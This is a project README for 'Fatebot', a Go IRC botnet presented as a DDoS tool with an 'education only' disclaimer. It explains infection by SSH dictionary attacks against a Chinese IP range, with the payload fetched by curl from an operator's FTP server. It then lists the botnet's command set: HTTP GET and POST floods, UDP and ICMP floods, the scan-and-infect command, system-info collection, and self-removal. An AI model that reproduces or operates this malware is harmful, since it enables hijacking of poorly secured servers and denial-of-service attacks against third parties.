


<h2>Attention Attention!!! My english is terrible. I'm so sorry about that :( </h2>

# Fatebot v0.2d
This is my first IRC botnet for launch ddos attack, Write on Go language. For education purpose only. Please test it on your lab. And i create this for join university in the future not for attack anyone server with out any permission!!!

<strong>IRC commands are in the bottom of The page.</strong>

# Infect
The infect function of this botnet is scanning by SSH port<strong>(default as 22)</strong> and login by dictionary attack.
like username "admin" and password "admin". <strong>(Scan by range of CHN network. You can add more or change it, if you want.)</strong>
This botnet use curl to get payload from FTP server, so... please prepair your FTP server first, It very important for infect process.

<strong>I scan on my private netowrk in SSH range(1-5), And comment a function of running session.(That why bot is not join The server.)</strong>

# DDoS
Raw socket programming is really hard for me. That's why all of <strong>The volumetric</strong> are a simple like udp and icmp flood. Mainly DDoS function is on <strong>The Application layer</strong>, And my recommand is a HTTP post flood.

# Update List.

<strong>Fatebot v0.1:</strong> Fatebot open release.

<strong>Fatebot v0.2:</strong> Get bot system information function.

<strong>Fatebot v0.2d:</strong> Add multiple ddos function like UDP and Post flood at The same time.(I know it really stupid.), And add The turotial in to main, ddos and scan files

# IRC Commands
<ul>
  <li><strong>?get [url]</li></strong>
    <ul>
      <li>?get http://target.com</li>
      - Flood HTTP get request to target.
    </ul>
</ul>

<ul>
  <li><strong>?post [url]</li></strong>
    <ul>
      <li>?post http://target.com</li>
      - Flood HTTP post request to target.
    </ul>
</ul>

<ul>
  <li><strong>?udp [ip] [size]</li></strong>
    <ul>
      <li>?udp 192.168.1.16 500</li>
      - Flood UDP packets by random src and dst port to target. 
      
- Min and Max of Buffer is 1 - 700bytes.

    </ul>
</ul>

<ul>
  <li><strong>?icmp [ip]</li></strong>
    <ul>
      <li>?icmp 192.168.1.16</li>
      - Flood ICMP with large packets to target.
    </ul>
</ul>

<ul>
  <li><strong>?scan [ftp server]</li></strong>
    <ul>
      <li>?scan ftp://192.186.1.16/payload</li>
      - Scan CHN ip range on SSH port and get payload with cURL.
    </ul>
</ul>

<ul>
  <li><strong>?info</li></strong>
    <ul>
      - Get bot system information.
    </ul>
</ul>

<ul>
  <li><strong>?kill</li></strong>
    <ul>
      - Remove payload on bot machine and left the server.
    </ul>
</ul>

<ul>
  <li><strong>?stop.ddos</li></strong>
    <ul>
      - Stop ddos attacking.
    </ul>
</ul>

<ul>
  <li><strong>?stop.scan</li></strong>
    <ul>
      - Stop scanning.
    </ul>
</ul>
